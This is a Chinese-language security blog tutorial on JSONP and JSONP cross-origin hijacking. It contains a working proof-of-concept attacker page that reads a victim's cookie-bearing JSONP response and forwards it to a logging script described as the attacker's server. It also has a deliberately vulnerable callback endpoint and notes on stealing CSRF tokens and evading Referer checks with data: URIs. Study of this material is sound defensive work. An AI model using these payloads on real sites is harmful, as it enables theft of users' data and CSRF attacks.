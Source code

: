 ```yaml
---
layout:     post
title:      jsonp漏洞
date:       2018-12-28
author:     Wh0ale
header-img: img/homesick_by_wlop-d8vlh61.jpg
catalog: true
tags:
    - csrf
---
```


JSONP 由两部分组成：**回调函数**和**数据**。回调函数是当响应到来时应该在页面中调用的函数。回调函数的名字一般是在请求中指定的。而数据就是传入回调函数中的 JSON 数据。

动态创建`<script>`标签，设置其src，回调函数在src中设置：

```javascript
var script = document.createElement("script");
script.src = "https://api.douban.com/v2/book/search?q=javascript&count=1&callback=handleResponse";
document.body.insertBefore(script, document.body.firstChild);
```

在页面中，返回的JSON作为参数传入回调函数中，我们通过回调函数来来操作数据。

```javascript
function handleResponse(response){
    // 对response数据进行操作代码
}
```

**上面是简单直接的对JSONP 的描述，可能有些人不是很懂，我们下面一步一步分析**

**第一种**

① 用户携带cookie访问放置在黑客服务器的页面

jsonp.html

```html
<script type="text/javascript" src="http://www.w3school.com.cn/jquery/jquery-1.11.1.min.js"></script>

<script type="text/javascript">

$.getJSON("http://127.0.0.1/csrf/api.php?calback=?", function(json){
	// 这里填写目标接口

var data=JSON.stringify(json);

$.get("http://127.0.0.1/csrf/log.php?mylogs="+data,function(res,status){
//将data转发记录,访问log.php
//注意 这里写的是黑客vps的ip，由于是测试，我写127.0.0.1

alert ('ok') ;
//如果返回的jsonp的json数组，不是一个json对象。
//使用 alert(result[0].admin)

});
});
</script>
```

```
<!-- 引用一段如上请求为JS -->
<script>function jsonp2(data){alert(JSON.stringify(data));}</script>
<script src="http://gh0st.cn/user/center?callback=jsonp2"></script>
```

api.php

这里模拟靶机的接口

```php
<?php
header('Content-type:application/json');
echo $_GET['callback']."({\"admin\":\"".$_COOKIE['admin']."\"})"
?>
```

log.php

将json数据转存

```php
<?php
	$time = date("Y_m_d_h_i_s");
	$filename = $time."_".rand(1,29999).".txt";
	$log = $_GET[mylogs];
	$httpheader = "HTTP_HEADER\r\n";
	foreach (getallheaders() as $name => $value){
		$httpheader = $httpheader."$name: $value\r\n";
	}
	echo file_put_contents(filename, $httpheader."\r\n".$log);

?>
```

②凡访问加载这个poc的页面的用户，他的投诉记录都会被我直接劫持，并且做记录



之前在cors漏洞写到的开源脚本在这也可以配合使用

接下来准备深入挖掘csrf类的漏洞

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fylhxn4c2qj211z0ikacc.jpg)

**第二种**

2.html

```html
<!DOCTYPE html>
<html>
<head>
    <title>GoJSONP</title>
</head>
<body>
<script type="text/javascript">
    function jsonhandle(data){
        alert("age:" + data.age + "name:" + data.name);
    }
</script>
<script type="text/javascript" src="jquery-3.3.1.min.js">
</script>
<script type="text/javascript" src="http://127.0.0.1/jsonp/remote.js"></script>
</body>
</html>
```

remote.js

```javascript
jsonhandle({
    "age" : 15,
    "name": "John",
})
```

**注意：远程的js 代码不需要script标签**

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyvxq4new6j20sa0fnjs4.jpg)

**第三种**

**用下面的代码模jsonp的调用过程方便大家更好的理解jsonp的运行过程**

3.html

```html
<!DOCTYPE html>
<html>
<head>
    <title>GoJSONP</title>
</head>
<body>
<script type="text/javascript">
    function jsonhandle(data){
        alert("age:" + data.age + "name:" + data.name);
    }
</script>
<script type="text/javascript" src="jquery-3.3.1.min.js">
</script>
<script type="text/javascript">
    $(document).ready(function(){
        var url = "http://127.0.0.1/jsonp/test1.php?id=1&callback=jsonhandle";
        var obj = $('<script><\/script>');
        obj.attr("src",url);
        $("body").append(obj);
    });
</script>
</body>
</html>
```

test1.php

```php
<?php
$data = array(
    'age' => 20,
    'name' => 'dada',
);

$callback = $_GET['callback'];

echo $callback."(".json_encode($data).")";
return;
```

`http://127.0.0.1/jsonp/test1.php?id=1&callback=jsonhandle`

我们在scipt标签里面给出的链接是我远程服务器的一个php的代码，我给这个文件传递了一个参数，作为我要调用的函数。服务器接收到这个参数以后把它当做函数名，并给这个函数传递了一个json的值作为用户调用的函数的参数，最终实现调用



**JSONP攻击**

**1.JSONP 跨域劫持**

实际上就是由于服务器端对JSONP 的请求来源的检查不严格导致的

攻击者模拟用户向有漏洞的服务器发送JSONP请求，然后就获取到了用户的某些信息，再将这些信息发送到攻击者可控的服务器

**2.JSONP 跨域劫持token 实现CSRF**

通过 jsonp 发起请求，得到泄露的 csrf_token 然后，利用这个token 实现CSRF 攻击

**3.Referer 头的绕过**

在攻击过程中可能会涉及到 referer 头的绕过

1. data:URL
   为了逃避他的检测我们可以选择不发送referer这个头，那么怎么做呢？这就涉及到 data:URL 头

为了构造一个不带HTTP Referer的请求，我们可以滥用data URI方案。因为我们正在处理的代码包含了引号，双引号，以及其他一些被阻止的语句，接着使用base64编码我们的payload（回调函数定义以及脚本包含）
data:text/plain;base64our_base64_encoded_code:

以下3个HTML标签允许我们使用data URI方案：

```
iframe (在src属性中) – Internet Explorer下不工作
embed (在src属性中) – Internet Explorer及Microsoft Edge下不工作
object (在data属性中) – Internet Explorer及Microsoft Edge下不工作
```

2.从HTTPS向HTTP发起请求

如果目标网站可以通过HTTP访问，也可以通过将我们的代码托管在一个HTTPS页面来避免发送HTTP Referer。如果我们从HTTPS页面发起一个HTTP请求，浏览器为了防止信息泄漏是不会发送Referer header。以上我们要将恶意代码托管在一个启用了HTTPS的站点。
注意：由于mixed-content安全机制，在浏览器默认设置下是不会工作的。需要受害者手动允许浏览器发出的安全警告。









Reference：
[http://www.admintony.com/csrf-and-json.html](http://www.admintony.com/csrf-and-json.html)

[k0rz3n](http://www.k0rz3n.com/2018/06/05/%E7%94%B1%E6%B5%85%E5%85%A5%E6%B7%B1%E7%90%86%E8%A7%A3JSONP%E5%B9%B6%E6%8B%93%E5%B1%95/)